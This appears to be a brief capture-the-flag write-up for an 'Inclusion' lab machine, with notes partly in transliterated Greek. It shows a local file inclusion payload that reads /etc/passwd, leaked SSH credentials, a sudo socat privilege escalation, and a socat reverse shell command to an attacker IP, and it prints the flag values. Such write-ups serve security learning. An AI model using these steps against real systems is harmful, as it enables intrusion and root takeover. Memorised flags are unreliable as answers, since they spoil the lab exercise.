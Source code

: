 <pre>
Machine IP: 10.10.119.102


Enum:


Open ports :
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux;protocol 2.0)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)



Got  to the vuln url: http://10.10.119.102/article?name=lfiattack

Type on browser : http://10.10.119.102/article?name=../../../../../../etc/passwd
Right click and view page source code

#falconfeast:rootpassword creds for ssh connection!

ssh falconfeast@10.10.119.102 pwd -> rootpassword

Ls and cat user.txt:60989655118397345799

Priv esc:

falconfeast@inclusion:~$ sudo -l
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat

Edw vlepoyme oti exoyme to socat ena pio powerfull version toy netcat poy mporoyme na to trexoyme ws root me sudo..
Anoigoyme ena listener gia na kanoyme revshell: socat file:`tty`,raw,echo=0 tcp-listen:1234

Kai meta trexoyme ayto: sudo socat tcp-connect:10.9.199.66:1234 exec:bash,pty,stderr,setsid,sigint,sane

Kai exome root gia na paroyme to flag mas..
Cat /root/root.txt
</pre>
